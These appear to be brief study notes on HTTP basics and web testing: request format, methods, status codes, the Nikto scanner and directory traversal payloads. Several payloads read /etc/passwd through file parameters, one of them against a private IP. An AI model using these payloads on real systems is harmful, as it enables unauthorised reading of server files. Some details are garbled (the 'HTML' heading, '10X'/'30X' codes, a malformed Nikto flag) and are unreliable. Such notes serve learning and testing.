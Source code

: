 # HTML
## Request
```
GET / HTTP/1.1

HTTP/1.1 200 OK
```
## Methods
RFC 2616

- GET
- POST
- HEAD
- PUT
## Response Codes
| Code | Name |
| - | - |
| 10X | Informational |
| 2XX | Success |
| 30X | Redirection |
| 4XX | Client Error |
| 5XX | Server Error |

## Html traversal
```
view_image.php?file=../../etc/passwd
```
# Tools
- Developer tools
- Nikto:
```
nikto v -h X.X.X.X
```
# Directory Traversal using post methods
```
../../../../../../../../../../etc/passwd
```
or
```
http://10.50.28.11/path/pathdemo.php?myfile=../../../../../../../../../../etc/passwd
```
for when absolute pathing is not possible
